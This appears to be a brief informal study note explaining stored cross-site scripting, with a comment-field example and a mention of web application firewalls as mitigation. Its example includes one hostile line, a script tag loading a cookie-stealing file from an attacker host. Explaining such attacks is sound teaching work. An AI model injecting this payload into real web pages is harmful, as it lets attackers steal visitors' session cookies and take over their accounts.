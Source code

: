 #security  #attacks 
what is it
     its an attack that injects malicious code into a vulnerable web application, xss differs from other web attack in that it does not directly target the application itself 
     instead, uses the application to its advantage
to succesfully execute a stored xss attack, a perpetrator has to locate a vulnerability in a web application and then inject malicious script into its server (comment field)

xss example 
     a person realizes that the website doesnt parse out comments and they are stored as regular html and posts this comment 
          <script src="http://hackersite.com/authStealer"> </script>
     from this point on everytime the page is accessed, the html tag will activate a js file, and steals visitors cookies 
     using the session cookie, the attacker can compromise the cisitors account, granting him easy accesss to his personal info and credit card data
     unlike the reflected attack (user has to interact for the attack to commence) the stored attack only needs that the victm visit the compromised web page 

Prevention | mitigation 
     web application firewall (waf) is the most commonly used solution for protection from sxx and web application attacks 
     